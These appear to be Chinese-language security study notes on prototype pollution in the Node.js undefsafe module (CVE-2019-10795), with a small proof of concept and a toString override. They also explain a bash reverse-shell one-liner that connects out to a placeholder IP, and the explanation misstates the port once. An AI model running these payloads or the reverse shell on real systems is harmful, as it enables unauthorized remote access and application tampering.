 POC如下，污染原型链后，空对象多了个`ddd`属性，且`{}.ddd=JHU`。

```javascript
var a = require("undefsafe");
var b = {};
var c = {};
var payload = "__proto__.ddd";
a(b,payload,"JHU");
console.log(c.ddd);
```



### bash -i >& /dev/tcp/IP/2333 0>&1

这条命令是在 Bash 中用于创建反向 Shell 的一种方法。它的作用是：

- `bash -i` 启动一个交互式 Bash shell。
- `>& /dev/tcp/IP/2333 将标准输出和标准错误重定向到指定 IP 地址（`IP`）的 9999 端口。这里的 `/dev/tcp/` 是 Bash 特有的功能，允许通过 TCP 连接到指定的主机和端口。
- `0>&1` 将标准输入重定向到标准输出，这样从远程主机接收到的数据可以被 Bash 处理。

换句话说，当执行这个命令时，目标主机会连接到指定的 IP 地址和端口，并通过该连接进行命令交互。这种方法通常用于安全测试和渗透测试，但在没有授权的情况下使用是非法的。请务必确保你有权限进行这样的操作。

### Undefsafe 模块原型链污染（CVE-2019-10795）

不光是 Merge 操作容易造成原型链污染，undefsafe 模块也可以原型链污染。undefsafe 是 Nodejs 的一个第三方模块，其核心为一个简单的函数，用来处理访问对象属性不存在时的报错问题。但其在低版本（< 2.0.3）中存在原型链污染漏洞，攻击者可利用该漏洞添加或修改 Object.prototype 属性。

总结来说undefsafe就是可以将一个以下的报错改成不报错，改成undefined

```js
var a = require("undefsafe");

console.log(a(object,'a.b.e'))
// skysec
console.log(object.a.b.e)
// skysec
console.log(a(object,'a.c.e'))
// undefined
console.log(object.a.c.e)
// TypeError: Cannot read property 'e' of undefined
```

#### 当 undefsafe() 函数的第 2，3 个参数可控时，我们可以污染 object 对象中的值

```js
a(test,'__proto__.toString',function(){ return 'just a evil!'})
console.log('this is '+test)    // 将test对象与字符串'this is '进行拼接
// this is just a evil!
```

### js原型链污染：

例子：
